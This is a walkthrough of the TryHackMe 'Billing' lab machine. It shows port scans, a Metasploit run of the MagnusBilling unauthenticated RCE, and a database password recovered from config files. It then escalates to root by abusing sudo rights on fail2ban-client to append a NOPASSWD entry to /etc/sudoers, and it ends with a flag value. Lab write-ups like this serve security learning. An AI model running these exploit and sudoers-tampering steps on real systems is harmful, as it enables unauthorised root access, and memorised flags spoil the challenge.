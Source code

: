 ```yaml
---
title: "Billing"
date: 2024-03-08
draft: false
description: TryHackMe's Good Room
Tags:
- TryHackMe
- Linux
- Easy
---
```




## Enumeration

```
rustscan -a 10.10.179.166           
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Real hackers hack time ⌛

[~] The config file is expected to be at "/home/k21/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.10.179.166:22
Open 10.10.179.166:80
Open 10.10.179.166:3306
Open 10.10.179.166:5038
[~] Starting Script(s)
[~] Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-08 03:23 +0545
Initiating Ping Scan at 03:23
Scanning 10.10.179.166 [4 ports]
Completed Ping Scan at 03:23, 0.19s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 03:23
Completed Parallel DNS resolution of 1 host. at 03:23, 0.00s elapsed
DNS resolution of 1 IPs took 0.00s. Mode: Async [#: 2, OK: 1, NX: 0, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating SYN Stealth Scan at 03:23
Scanning 10.10.179.166 (10.10.179.166) [4 ports]
Discovered open port 80/tcp on 10.10.179.166
Discovered open port 22/tcp on 10.10.179.166
Discovered open port 5038/tcp on 10.10.179.166
Discovered open port 3306/tcp on 10.10.179.166
Completed SYN Stealth Scan at 03:23, 0.19s elapsed (4 total ports)
Nmap scan report for 10.10.179.166 (10.10.179.166)
Host is up, received reset ttl 60 (0.17s latency).
Scanned at 2025-03-08 03:23:25 +0545 for 0s

PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 60
80/tcp   open  http    syn-ack ttl 60
3306/tcp open  mysql   syn-ack ttl 60
5038/tcp open  unknown syn-ack ttl 60

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.55 seconds
           Raw packets sent: 8 (328B) | Rcvd: 5 (216B)
```

```
nmap -sVC 10.10.179.166           
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-08 03:22 +0545
Nmap scan report for 10.10.179.166 (10.10.179.166)
Host is up (0.18s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 79:ba:5d:23:35:b2:f0:25:d7:53:5e:c5:b9:af:c0:cc (RSA)
|   256 4e:c3:34:af:00:b7:35:bc:9f:f5:b0:d2:aa:35:ae:34 (ECDSA)
|_  256 26:aa:17:e0:c8:2a:c9:d9:98:17:e4:8f:87:73:78:4d (ED25519)
80/tcp   open  http    Apache httpd 2.4.56 ((Debian))
| http-robots.txt: 1 disallowed entry 
|_/mbilling/
| http-title:             MagnusBilling        
|_Requested resource was http://10.10.179.166/mbilling/
|_http-server-header: Apache/2.4.56 (Debian)
3306/tcp open  mysql   MariaDB 10.3.23 or earlier (unauthorized)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


```

Lets see port 80.
![](Pasted%20image%2020250308033038.png)

Lets try to search for possible exploits and default creds.
![](Pasted%20image%2020250308032906.png)

And there is a unauthenticated RCE on it.
Lets try to search it on meterpreter.
![](Pasted%20image%2020250308033223.png)

## Exploit

Hmm so there is possible exploit.
Lets try this.
```
use 3
set LHOST tun0
set RHOSTS machine_ip
run
```

And we can see, it worked.
![](Pasted%20image%2020250308033410.png)

Note:this might also work.
[CVE-2023-30258](https://github.com/hadrian3689/)

## privilege Escalation

Lets enumerate further.
And doing `sudo -l`, we can see this.
![](Pasted%20image%2020250308034458.png)

But lets first of all run linpeas.sh.
Hmm root is little bit trickier.

Reading config files showed this.
![](Pasted%20image%2020250308044851.png)

And that leads to this.
![](Pasted%20image%2020250308044925.png)

We have the db password.
```
dbhost = 127.0.0.1
dbname = mbilling
dbuser = mbillingUser
dbpass = BLOGYwvtJkI7uaX5

```

Lets try to login.
`mysql -u mbillingUser -p`
![](Pasted%20image%2020250308045153.png)

Lets enumerate this too.
We got the hash but it is also a rabbithole.
![](Pasted%20image%2020250308051547.png)

After  trying different things and talking with AI.
We could this.
`sudo /usr/bin/fail2ban-client status`
So the `fail2ban-client` is the tool for making a bruteforce attacks hard.
So we will use it here to escalate our privilege.

First we will create our own action.
`sudo /usr/bin/fail2ban-client set sshd addaction myaction`

So it add the new action named myaction to the sshd jail.

Now we need to define what our custom action does.
`sudo /usr/bin/fail2ban-client set sshd action myaction actionban "echo 'asterisk ALL=(ALL) NOPASSWD:ALL' >> /etc/sudoers"`

So here, `echo 'asterisk ALL=(ALL) NOPASSWD:ALL' >> /etc/sudoers` will triggered when sshd jail is triggered.
So we set the sshd action to our action and which will do a specific action to stop or reduce attack but here we used it to escalate our privilege to root.
![](Pasted%20image%2020250308055753.png)

And now we need to trigger that jail, So we can try to do failed ssh or use hydra for it.
![](Pasted%20image%2020250308060200.png)

And now if it is successful,we can see like this.
![](Pasted%20image%2020250308055859.png)

Now we can easily become root.
![](Pasted%20image%2020250308060038.png)

## Done

And done.
![](Pasted%20image%2020250308060453.png)

And learned lots of things again.

`MgnodcVwGxW0xLUN`

